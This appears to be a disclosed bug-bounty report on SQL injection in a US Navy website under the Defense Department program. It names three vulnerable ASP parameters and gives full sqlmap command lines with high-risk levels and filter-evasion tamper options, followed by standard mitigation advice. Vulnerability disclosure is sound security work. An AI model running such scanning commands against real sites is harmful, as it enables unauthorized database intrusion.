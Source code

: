 # SQL injection found in US Navy Website (http://███/)

## Report Details
- **Report ID**: 197755
- **URL**: https://hackerone.com/reports/197755
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-01-12T07:42:14.796Z
- **Disclosed**: 2019-12-02T18:32:51.942Z

## Reporter
- **Username**: hassaan
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**

SQL injection found in US Navy Website (http://█████/)

**Description:**

SQL injection found in US Navy website, parameters are:

/display.asp?story_id=98373
/listStories.asp?x=4
/viewVideo.asp?t=6

SQLmap commands:

sqlmap.py -u http://█████/submit/display.asp?story_id=98373 --random-agent --dbms=HSQLDB --level=5 --risk=3 --tamper=between,bluecoat --data="display.asp?story_id=98373" --time-sec=65 --no-cast -v 3

sqlmap.py -u http://███/listStories.asp?x=4 --random-agent --dbms=HSQLDB --level=5 --risk=3 --tamper=between,bluecoat --data="listStories.asp?x=4" --time-sec=65 --no-cast -v 3

sqlmap.py -u http://██████/viewVideo.asp?t=6 --random-agent --dbms=HSQLDB --level=5 --risk=3 --tamper=between,bluecoat --data="viewVideo.asp?t=6" --time-sec=65 --no-cast -v 3

## Impact

Critical

## Step-by-step Reproduction Instructions

1. Crawling website for vulnerabilities. 
2. Found some parameters having SQL injection.
3. Verified from SQLmap. Screenshots are also attached.

## Product, Version, and Configuration (If applicable)

## Suggested Mitigation/Remediation Actions

Primary Defenses:

Option #1: Use of Prepared Statements (Parameterized Queries)
Option #2: Use of Stored Procedures
Option #3: Escaping all User Supplied Input

Additional Defenses:

Also Enforce: Least Privilege
Also Perform: White List Input Validation

## Attachments
No attachments
